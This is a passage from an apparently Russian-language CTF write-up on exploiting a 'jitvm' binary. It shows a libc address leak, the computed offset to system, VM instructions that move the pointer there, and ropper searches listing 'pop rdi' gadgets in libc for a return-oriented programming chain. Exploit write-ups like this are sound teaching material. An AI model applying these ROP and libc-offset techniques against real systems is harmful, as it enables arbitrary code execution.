 Видим, что нам повезло, и указатель куда-то внутрь libc лежал на `$rsp + 0x0038`. Это значит, что еще несколько операций `pop` спустя мы получаем адрес инструкции в libc:

```asm
pop b
pop b
pop b
pop b
pop b
pop b
pop b
```

Осталось прибавить константу, чтобы `b` указывало на функцию `system`:

```c
gef➤  p/d (long long)system - 0x00007ffff7c23510
$2 = 176144
```

```asm
add b 176144
```

Наконец, осталось придумать, как передать в `system` аргумент. В Linux x86-64 первый параметр функции передается через регистр `rdi`, а по коду jitvm видно, что `rdi` не изменяется во время работы программы и указывает на данные, которые мы изменить не можем. Поэтому придется изменить сам регистр `rdi`, например, найдя в libc или памяти программы код, выглядящий как `pop rdi; ret` или что-то похожее. В таком случае мы сможем положить на стек адрес этого кода и рядом адрес `system`, и процессор при выходе из `main` сначала «вернётся» в `pop rdi; ret`, достанет `rdi` со стека, а потом «вернётся» в `system` с нужным значением аргумента. Называется этот метод [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming).

```shell
$ ropper -f /tmp/a.out --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi
```

Не повезло. Дальше можно было бы попытаться искать более сложные гаджеты, например, сначала сделать `pop` в другой регистр, а потом `mov rdi, ...`, но и такого не найдётся.

Придётся вспомнить, что, помимо программы, у нас есть ещё и libc, и поискать там:

```shell
$ ropper -f libc.so.6 --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: libc.so.6
```

```asm
0x000000000008975d: pop rdi; add dword ptr [rcx + rcx*4 - 0x11], ecx; call qword ptr [rax + 0x18]; 
0x00000000000e6ecf: pop rdi; add eax, 0x83480000; mov ebp, 0xfffffb20; add byte ptr [rdi], cl; test dword ptr [rax - 0x9fffff7], edi; ret; 
0x0000000000195522: pop rdi; add edi, esi; ret; 
0x00000000001788a7: pop rdi; add rax, rdi; shr rax, 2; vzeroupper; ret; 
0x0000000000172877: pop rdi; add rax, rdi; vzeroupper; ret; 
0x00000000001796b5: pop rdi; add rdi, 0x21; add rax, rdi; vzeroupper; ret; 
0x00000000001604ae: pop rdi; add rsp, 0x10; pop rbx; ret; 
0x000000000005cf7b: pop rdi; add rsp, 0x1018; pop rbx; pop rbp; ret; 
0x000000000011e741: pop rdi; call rax; 
0x000000000011e741: pop rdi; call rax; mov rdi, rax; mov eax, 0x3c; syscall; 
0x000000000013a955: pop rdi; cmp ecx, dword ptr [rax]; add al, ch; mov ebp, edi; jmp qword ptr [rsi - 0x70]; 
```